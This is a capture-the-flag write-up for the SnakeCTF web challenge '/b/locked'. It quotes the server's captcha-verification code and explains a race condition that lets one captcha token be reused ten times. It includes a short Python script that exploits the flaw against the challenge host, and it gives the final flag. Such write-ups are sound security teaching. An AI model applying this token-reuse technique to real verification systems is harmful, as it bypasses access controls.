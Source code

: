 # [Web] /b/locked
**Final Solves**: 67

![CTF Challenge](../imgs/blocked.jpg)

---

## Solution

When launching the challenge, we're greeted by an ExpressJS web server that asks us to solve 10 hard captchas in under 10 seconds.

![CTF Challenge](../imgs/blocked_index.jpg)

Since this is a white-box web security challenge, the natural first step was to inspect the source code. The most interesting part is the `/protected` route. This **verifies all submitted captchas** and ensures that they were solved in the last 10 seconds before returning the flag. The route validates the 10 captcha tokens using a **Javascript Promise**, so that all checks run concurrently. 

```javascript
const verificationPromises = solvedCaptchas.map(token => {
    return new Promise((resolve, reject) => {
        db.get("SELECT hash, salt, solvedAt FROM validHashes WHERE id = ?", [token], async (err, storedHashData) => {
            if (err) {
                console.error("Error retrieving hash data:", err);
                return resolve();
            }

               if (!storedHashData) {
                console.error("Token not found or already used:", token);
                return resolve();
                }

            const { hash, salt, solvedAt } = storedHashData;

            try {
                const recomputedHash = await new Promise((resolveHash, rejectHash) => {
                    crypto.pbkdf2(token, salt, 100000, 64, "sha512", (err, derivedKey) => {
                        if (err) rejectHash(err);
                        resolveHash(derivedKey.toString('hex'));
                    });
                });

                if (recomputedHash === hash) {
                    solvedTimes.push(solvedAt);
                    db.run("DELETE FROM validHashes WHERE id = ?", [token], (err) => {
                        if (err) {
                            console.error("Error deleting hash:", err);
                        }
                        resolve();
                    });
                } else {
                    console.error("Hash mismatch for token:", token);
                    resolve();
                }
            } catch (e) {
                console.error("Error verifying token:", e);
                resolve();
            }
        });
    });
});

await Promise.all(verificationPromises);
```


This implementation introduces a subtle **race condition**: Each token is first checked for validity, then a hash is computed (which takes some time), and finally, the token is marked invalid to prevent reuse.
Because the checks happen at the same time, **the invalidation step doesn't complete before the other checks start**. This means we can **reuse the same token** 10 times, tricking the server into thinking 10 different captchas were solved.

***My script:***
```python
import requests

BASE_URL = "https://520930d91fbe773eaae88164df93112b.blocked.challs.snakectf.org"
TOKEN = input('token ')[6:-6]

cookies = {
    "solvedCaptchas": ",".join([TOKEN] * 10) # Crafting our 🍪
}

resp = requests.get(f"{BASE_URL}/protected", cookies=cookies) # Retrieving our 🚩

print("Response:")
print(resp.text)
```

***Final flag:***
`snakeCTF{4n0n_byp4553d_th3_f1lt3r_7470985510630620}`

During the game, we also found out it could be solved in another **unintended** way. As the system only noted the time when the captcha's response was sent, a player could just solve 10 captchas manually, write down the Captcha's ID and solution, and submit everything at the same time.
